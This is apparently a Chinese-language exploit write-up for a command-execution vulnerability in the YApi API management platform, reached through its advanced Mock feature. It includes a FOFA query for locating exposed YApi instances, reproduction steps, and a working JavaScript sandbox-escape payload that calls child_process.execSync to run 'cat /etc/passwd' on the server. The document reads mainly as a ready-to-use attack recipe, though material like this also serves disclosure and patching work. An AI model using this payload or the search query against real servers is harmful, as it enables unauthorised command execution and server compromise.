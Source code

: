# YApi 接口管理平台 后台命令执行漏洞

## 漏洞描述

YApi 接口管理平台 后台存在命令执行漏洞，攻击者通过发送特定的请求可执行任意命令获取服务器权限

## 漏洞影响

```
YApi 接口管理平台
```

## FOFA

```
app="YApi"
```

## 漏洞复现

登录页面

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091829002.png)



首先需要注册账户并登录



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091829520.png)



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091829602.png)



添加项目，参数任意



创建后点击 高级Mock 输入如下Payload



```javascript
const sandbox = this; // 获取Context
const ObjectConstructor = this.constructor; // 获取 Object 对象构造函数
const FunctionConstructor = ObjectConstructor.constructor; // 获取 Function 对象构造函数
const myfun = FunctionConstructor('return process'); // 构造一个函数，返回process全局变量
const process = myfun();
mockJson = process.mainModule.require("child_process").execSync("cat /etc/passwd").toString()
```



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091830184.png)



预览处点击项目链接



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091830086.png)